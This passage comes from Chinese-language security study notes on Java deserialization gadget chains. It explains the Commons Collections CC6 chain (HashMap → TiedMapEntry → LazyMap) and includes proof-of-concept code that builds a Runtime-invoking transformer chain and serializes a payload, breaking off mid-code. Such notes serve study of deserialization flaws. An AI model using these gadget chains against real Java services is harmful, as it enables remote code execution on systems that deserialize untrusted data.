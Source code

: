 ```java
        //payload序列化写入文件，模拟网络传输
        FileOutputStream f = new FileOutputStream("payload.bin");
        ObjectOutputStream fout = new ObjectOutputStream(f);
        fout.writeObject(badAttributeValueExpException);

        //2.服务端读取文件，反序列化，模拟网络传输
        FileInputStream fi = new FileInputStream("payload.bin");
        ObjectInputStream fin = new ObjectInputStream(fi);
        //服务端反序列化
        fin.readObject();

    }
}
```

## CC6-commons.collection 不限 JDK 不限

最好的cc链！！！

与ysoserial中cc1的差别就是解决了高版本的兼容问题

从LazyMap#get去接着查找调用

![Untitled](attachments/CC链%20attachments/Untitled%2020.png)

找到TiedMapEntry，其getValue存在对get方法的调用

![Untitled](attachments/CC链%20attachments/Untitled%2021.png)

![Untitled](attachments/CC链%20attachments/Untitled%2022.png)

在TiedMapEntry方法中的调用顺序是

hashCode→getValue→get

接下来找哪里调用了TiedMapEntry#hashCode

P牛的java安全漫谈中对ysoserial进行了简化

通过`java.util.HashMap#readObject` 调用hash(key),然后再通过hash(key)来调用key.hashCode()

**POC**

```java
package org.cc.cc1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
```
